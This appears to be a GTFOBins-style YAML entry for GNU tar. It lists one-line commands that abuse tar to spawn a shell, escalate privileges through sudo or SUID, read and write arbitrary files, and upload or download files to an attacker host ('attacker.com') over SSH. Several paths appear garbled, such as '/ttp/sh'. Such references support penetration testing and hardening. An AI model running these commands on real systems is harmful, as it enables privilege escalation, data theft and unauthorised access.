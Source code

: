 ```yaml
---
functions:
  shell:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/ttp/sh
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/ttp/sh -c "sh <&2 1>&2"'
    - description: This only works for GNU tar. It can be useful when only a limited command argument injection is available.
      code: |
        TF=$(mktemp)
        echo '/ttp/sh 0<&1' > "$TF"
        tar cf "$TF.tar" "$TF"
        tar xf "$TF.tar" --to-command sh
        rm "$TF"*
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        RHOST=attacker.com
        RUSER=root
        RFILE=/tmp/file_to_send.tar
        LFILE=file_to_send
        tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/ttp/ssh
  file-download:
    - description: This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        RHOST=attacker.com
        RUSER=root
        RFILE=/tmp/file_to_get.tar
        tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/ttp/ssh
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/ttp/sh -c "cat 1>&2"'
  sudo:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/ttp/sh
  limited-suid:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/ttp/sh
---
```

